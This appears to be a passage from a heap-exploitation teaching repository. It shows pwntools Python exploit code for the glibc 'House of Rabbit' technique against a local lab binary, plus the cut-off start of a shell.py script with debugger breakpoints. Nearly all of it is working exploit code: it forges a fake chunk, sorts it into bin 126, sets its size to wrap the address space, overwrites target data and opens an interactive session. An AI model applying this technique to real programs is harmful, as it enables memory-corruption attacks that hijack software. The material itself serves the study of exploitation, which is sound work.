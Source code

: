 ```python
# Trigger malloc_consolidate() to move the fake chunk from the fastbins into the unsortedbin.
# Use a consolidation with the top chunk to achieve this.
consolidate = malloc(0x88, b"C"*8)
free(consolidate)


# =-=-=- SORT FAKE CHUNK INTO BIN 126 -=-=-=

# Sort the fake chunk into bin 126 by setting its size to the minimum required to qualify for it,
# then requesting a chunk larger than the fake chunk.
# This part is where the unsortedbin size sanity check would catch us if we hadn't increased system_mem.
amend_age(0x80001)
malloc(0x80008, b"D"*8)

# Increase the fake chunk size so that it can wrap around the VA space to reach the target data.
amend_age(0xfffffffffffffff1)


# =-=-=- OVERWRITE TARGET DATA -=-=-=

# Request a large chunk to bridge the gap between the fake chunk and the target.
distance = delta(elf.sym.user, elf.sym.target - 0x20)
malloc(distance, b"E"*8)

# The next request is serviced by the fake chunk's remainder and the first qword of user data overlaps the target data.
malloc(24, b"Much win\0")

# Check that the target data was overwritten.
io.sendthen(b"target: ", b"4")
target_data = io.recvuntil(b"\n", True)
assert target_data == b"Much win"
io.recvuntil(b"> ")

# =============================================================================

io.interactive()
```


### shell.py


```python
#!/usr/bin/env python3
from pwn import *

context.log_level = 'debug'
context.binary = elf = ELF('./house_of_rabbit', checksec=False)

#libc = ELF('', checksec=False)
libc = elf.libc 

gs = """
b *main

b *main+359

b *main+593
b *main+660

b *main+755

```